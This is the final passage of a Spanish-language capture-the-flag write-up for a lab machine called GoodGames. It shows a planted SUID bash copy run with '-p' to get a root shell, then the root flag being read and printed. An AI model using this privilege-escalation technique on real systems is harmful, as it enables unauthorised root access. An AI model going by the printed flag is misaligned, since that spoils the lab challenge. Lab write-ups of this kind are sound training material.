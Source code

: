 Aquí la tenemos, entonces simplemente lo usamos:
```
augustus@GoodGames:~$ ./bash -p
./bash -p
bash-5.1# whoami
whoami
root
```
Nos hemos convertido en root.

Ahora vamos a buscar la flag:

```
bash-5.1# cd /root/
cd /root/
bash-5.1# cat root.txt
cat root.txt
5b27d5f28150913f91baba
```

¡Listo! Hemos terminado la máquina.

Nos vemos, hasta la próxima.
